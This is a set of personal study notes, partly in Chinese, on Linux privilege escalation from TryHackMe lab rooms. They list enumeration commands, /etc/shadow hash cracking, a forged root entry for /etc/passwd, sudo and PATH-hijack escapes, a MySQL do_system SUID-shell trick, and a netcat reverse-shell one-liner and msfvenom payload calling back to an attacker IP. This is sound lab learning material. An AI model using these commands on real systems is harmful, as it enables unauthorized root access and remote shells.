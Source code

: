 ## Common Linux Privesc
	--> ssh user3@10.10.41.95 | password
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> common : 
		=> uname -a : 列印系統信息 
		=> cat file 
			=> /etc/crontab 執行腳本或二進位檔案
			=> /etc/passwd 發現系統上使用者
			=> /etc/shadow
			=> /etc/exports (NFS)
		=> GTFOBins
			=> sudo -l
			=> SUID 	
				=> find / -type f -perm -04000 -ls 2>/dev/null
				--> cap_setuid+ep
			=> Capabilities
				=> getcap -r / 2>/dev/null
		
		=> PATH
			=> find / -writable 2>/dev/null 
			=> export PATH=/tmp:$PATH
		=> NFS
			=> showmount -e
			=> sudo mount -o rw
		=> su 切換 user
			=> su user7

	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> LinEnum <--簡單的 bash 腳本
		--> https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
		=> /home/kali/2024_5_CTF/try_hack_me/task/JR/LinEnum.sh
		=> python3 -m http.server 8000
		=> wget 10.11.92.230:8000/2024_5_CTF/try_hack_me/task/JR/LinEnum.sh
		=> chmod +x LinEnum.sh
		=> ./LinEnum.sh
		
		--> uname | hostname | id |
		--> /etc/passwd | sudo | /home (ls -al) | env | Path 
		--> /etc/shells 
		--> Cron jobs: (/etc/cron | /etc/crontab)
		--> ifconfig
		--> Listening TCP/UDP
		--> PS
		--> /etc/init.d/
		--> version (Sudo / MySQL / apache /)
		--> INTERESTING FILES (nc | wget | nmap |gcc | curl)
		--> Can we read/write sensitive files
		--> SUID files
		--> capabilities
		--> NFS
		
	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	SUID : 
		--> 讀取 (4)、寫入 (2) 和執行 (1) => 7
		--> find / -perm -u=s -type f 2>/dev/null
		--> ./SUID file
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	/etc/rasswd :
		--> x:0:0:root:/root:/bin/bash
		--> 使用者名稱:密碼(X):UID(0 root):GID(0 root):ID資訊:主目錄:shell
		
		=> openssl passwd -1 -salt new 123
			=> new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	sudo -l 
		--> GTFOBins
			=> vi : sudo vi -c ':!/bin/sh' /dev/null
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	crontab 
		--> # m h dom mon dow 使用者指令
		
		--> msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R
			=> msfvenom -p cmd/unix/reverse_netcat lhost=10.11.92.230 lport=8888 R
			
		--> 
		--> mkfifo /tmp/vqqkpvj; nc 10.11.92.230 8888 0</tmp/vqqkpvj | /bin/sh >/tmp/vqqkpvj 2>&1; rm /tmp/vqqkpvj
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	Path :
		--> #echo "[whatever command we want to run]" > [name of the executable we're imitating] # imitating--假冒
		--> cd /tmp
		--> echo "/bin/bash" >> ls
		--> chmod +x ls
		--> export PATH =/tmp:$PATH
		
		=> ./script
## Linux PrivEsc
	--> ssh user@10.10.118.228 |  password321
	--> https://tryhackme.com/r/room/linuxprivesc
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
	
	--> /etc/shadow 檔案包含使用者密碼雜湊值
		--> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
		--> su root + password
		--> 新的密碼雜湊 : 
	--> /etc/passwd 檔案包含有關使用者帳戶的資訊
		--> mkpasswd -m sha-512 newpasswordhere
		--> openssl passwd newpasswordhere
	--> GTFOBins ( https://gtfobins.github.io ) 
		--> sudo -l 
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	

